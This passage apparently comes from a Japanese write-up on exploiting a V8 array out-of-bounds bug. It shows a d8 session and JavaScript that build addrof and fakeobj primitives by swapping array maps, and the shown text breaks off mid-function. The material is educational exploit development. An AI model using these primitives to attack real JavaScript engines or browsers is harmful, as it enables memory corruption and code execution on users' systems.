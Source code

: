 実際にこれを行った様子が次である。

```txt
$ ./d8 --allow-natives-syntax
V8 version 7.5.0 (candidate)
d8> let tmp = {X:1}
undefined
d8> let float_arr = [1.1]
undefined
d8> let obj_arr = [tmp]
undefined
d8> let float_map = float_arr.oob()
undefined
d8> let obj_map = obj_arr.oob()
undefined
d8> let target_obj = {Y:2}
undefined
d8> obj_arr[0] = target_obj
{Y: 2}
d8> obj_arr.oob(float_map)
undefined
d8> let target_addr = obj_arr[0]
undefined
d8> target_addr
9.6476255326233e-311
d8> %DebugPrint(target_obj)
0x11c27c950589 <Object map = 0x3ccd35a8ab89>
{Y: 2}
d8>
```

64bitの浮動小数点数と符号なし整数の変換用コードを挟んで居ないため分かりづらいが、`target_obj`のアドレスである0x11c27c950589を浮動小数点数として扱うと、9.6476255326233065e-311という結果が得られ[^1]、(表記の都合上完全に一致ではないが)`target_addr`と一致することがわかる。

もう一方のfakeobjについては、浮動小数点数として入っている値をポインタとして見たいのでこれを反転させたような手順になる。

1. 浮動小数点数の配列を用意する
2. この配列のどこか(0番目で良い)に偽装オブジェクトを作成したいアドレスを浮動小数点数として代入する
3. この配列のmapをオブジェクトの配列のものに変える
4. 2.で入れた添字にアクセスしてオブジェクトを得る

(実現していることを示すのには偽装されるオブジェクトに対応するバイト列を仕込まなければならず、手間がかかるのでここでは略)

これらを元にして、2つのプリミティブを実現するコードは次のようになる。

```javascript
let tmp_obj = {X:1};
let float_arr = [1.1];
let obj_arr = [tmp_obj];  // fxxk v8 heap

let float_map = float_arr.oob();
let obj_map = obj_arr.oob();

// addrof
function addrof(obj) {
    obj_arr[0] = obj;
    obj_arr.oob(float_map);

    let v = obj_arr[0];
    obj_arr.oob(obj_map);

    return f2i(v);
}

// fakeobj
// addr: address of array that includes float64 as bytes
function fakeobj(addr) {
```

[^1]: gdbで`p/f 0x11c27c950589`を実行した
[^2]: 実際には浮動小数点数に変換して代入する